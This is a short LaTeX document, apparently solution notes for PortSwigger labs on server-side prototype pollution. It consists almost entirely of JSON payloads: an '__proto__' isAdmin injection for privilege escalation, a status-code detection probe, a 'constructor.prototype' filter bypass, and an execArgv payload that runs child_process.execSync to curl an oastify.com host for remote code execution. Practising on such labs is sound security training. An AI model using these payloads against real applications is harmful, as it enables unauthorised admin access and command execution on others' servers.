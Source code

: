 \documentclass[
  letterpaper,
]{article}
\begin{document}
\subsubsection{6. Privilege escalation via server-side prototype
pollution}\label{6-privilege-escalation-via-server-side-prototype-pollution}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
Billing and Delivery Address:
"__proto__": {
    "isAdmin":true
}
\end{Verbatim}

\subsubsection{7. Detecting server-side prototype pollution without
polluted property
reflection}\label{7-detecting-server-side-prototype-pollution-without-polluted-property-reflection}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
"__proto__": {
 "status":555
}
\end{Verbatim}

\subsubsection{8. Bypassing flawed input filters for server-side
prototype
pollution}\label{8-bypassing-flawed-input-filters-for-server-side-prototype-pollution}

\begin{quote}
\url{https://portswigger.net/web-security/prototype-pollution/client-side\#bypassing-flawed-key-sanitization}
\end{quote}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
 "constructor":{
"prototype":{
"isAdmin":true
}}
\end{Verbatim}

\subsubsection{9. Remote code execution via server-side prototype
pollution}\label{9-remote-code-execution-via-server-side-prototype-pollution}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
"__proto__":
{"execArgv": [
  "--eval=require('child_process').execSync('curl https://kmazepmj6dq3jzpk2e4ah7fzuq0ho9cy.oastify.com')"
]}
\end{Verbatim}
\end{document}

